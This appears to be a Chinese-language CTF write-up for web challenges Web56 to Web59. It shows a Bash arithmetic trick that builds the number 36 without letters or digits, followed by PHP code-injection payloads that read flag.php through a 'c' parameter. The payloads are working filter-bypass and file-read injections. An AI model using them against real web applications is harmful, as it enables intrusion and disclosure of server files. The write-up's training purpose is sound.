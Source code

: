 ## Web56
上题p神的解法。

## Web57
字母数字基本都没了，但是flag被换成了36，所以想办法构造36即可。
括号和$还在：
双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。
通俗地讲，就是将数学运算表达式放在((和))之间。
表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。
可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。
可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，也即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。
注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210716235018.png)

$(())是0
$((~$(()))) 0取反是-1
$((~-37))  -37取反是36
$(($((~$(())))$((~$(())))))  连起来默认相加是-2
所以37个-1连起来就行。

    $((~$((     $((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))        ))))

## Web58
c=highlight_file('flag.php');

## Web59
58的payload也行，其他姿势：

    c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
	//通过单一函数读取文件
	c=echo file_get_contents("flag.php");
	c=readfile("flag.php");
	c=var_dump(file('flag.php'));
	c=print_r(file('flag.php'));
	//这里做一个解释`file — 把整个文件读入一个数组中`
	通过fopen去读取文件内容，这里介绍下函数
	fread()
	fgets()
	fgetc()
	fgetss()
	fgetcsv()
	gpassthru()
	payload:
	c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}//一行一行读取
	c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}//一个一个字符读取
	c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);var_dump($line);}
	